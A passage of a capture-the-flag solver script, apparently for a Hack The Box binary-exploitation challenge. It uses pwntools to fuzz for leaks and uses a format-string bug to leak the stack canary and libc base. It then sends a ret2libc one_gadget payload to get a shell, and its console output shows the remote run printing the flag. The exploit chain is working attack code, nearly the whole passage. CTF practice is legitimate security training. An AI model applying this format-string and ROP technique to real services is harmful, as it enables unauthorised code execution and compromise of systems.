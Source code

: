 ```python
    r.recvuntil('giving feedback ')
    leak = r.recvline()[:-1].decode()
    if len(leak) == 14 and '0x7f' in leak:
      print(f'[{i}] Possible LIBC: {leak}')
    elif len(leak) == 18 and '00' in leak:
      print(f'[{i}] Possible CANARY: {leak}')
    r.sendline('a')
    r.close()

# Uncomment to fuzz for addresses
# fuzzer()

# fmt leaks
sla('>> ', '9')
sla('>> ', 'y')
sla('name: ', f'%21$p.%27$p')
ru('giving feedback ')
canary, libc_leak = rl()[:-1].split(b'.')
canary = canary.decode()
libc.address = int(libc_leak.decode(), 16) - 0x21c87
print(f'Canary:    {canary}\nLibc base: {libc.address:#04x}')

# ret2libc with one_gadget
payload = flat({
  72: p64(int(canary, 16)) + p64(rop.find_gadget(['ret'])[0]) +
      p64(libc.address + 0x4f2a5)
})

sla('here: ', payload)

# Print flag
pause(1)
r.sendline('cat flag*')
print(f'\nFlag --> {r.recvline_contains(b"HTB").strip().decode()}\n')
```

```console
Running solver remotely at 0.0.0.0:1337

Canary:    0xbddbabf16562e100
Libc base: 0x7fd4183cf000

Flag --> HTB{gr4b_th3_fl4g_w1th_fmt}
```

